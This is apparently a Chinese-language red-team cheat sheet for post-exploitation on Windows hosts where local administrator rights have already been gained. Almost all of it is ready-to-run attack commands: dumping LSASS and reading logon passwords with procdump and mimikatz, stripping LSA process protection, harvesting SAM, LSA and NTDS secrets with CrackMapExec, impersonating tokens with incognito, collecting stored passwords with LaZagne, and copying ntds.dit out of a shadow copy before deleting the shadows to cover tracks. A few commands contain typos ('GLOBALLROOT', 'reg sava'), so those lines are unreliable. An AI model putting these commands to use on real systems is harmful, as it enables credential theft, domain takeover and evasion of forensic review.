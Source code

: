 ## 拥有本地管理员权限

### 获取密码

```
procdump.exe -accepteula -ma lsass.exe lsass.dmp

mimikatz "privilege::debug" "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords" "exit"

mimikatz "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::sam" "exit"

hashdump: post/windows/gather/smart_hashdump
cme smb <ip_range> -u <user> -p <password> -M lsassy
cme smb <ip_range> -u <user> -p '<password>' --sam / --lsa / --ntds
```

### 绕过LSA防护策略读取密码

```
PPLdump64.exe <lsass.exe|lsass_pid> lsass.dmp

mimikatz "!+" "!processprotect /process:lsass.exe /remove" "privilege::debug" "token::elevate"  "sekurlsa::logonpasswords" "!processprotect  /process:lsass.exe" "!-" #with mimidriver.sys 
```

### token窃取

```
.\incognito.exe list_tokens -u
.\incognito.exe execute -c "<domain>\<user>" powershell.exe

use incognito
impersonate_token <domain>\\<user>
```

之前粗略分析过 token

[Token窃取那些事 (0range-x.github.io)](https://0range-x.github.io/2021/09/30/Token窃取那些事/)

### 查看本地存储的所有密码

```
lazagne.exe all
```

### 卷影拷贝（获取域控所有hash）

```
diskshadow list shadows all

mklink /d c:\shadowcopy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\
管理员权限执行 
vssadmin create shadow /for=C: 
利用卷影副本卷名拷贝ntds.dit文件与用注册表导出system.hive 

copy \\?\GLOBALLROOT\Device\xxxxxxxxxx\windows\ntds\ntds.dit C:\ntds.dit reg sava hklm\system system.hive 
//导出system.hive文件到注册表 

vssadmin delete shadows /for=C: /quiet   //删除卷影，隐藏痕迹
```
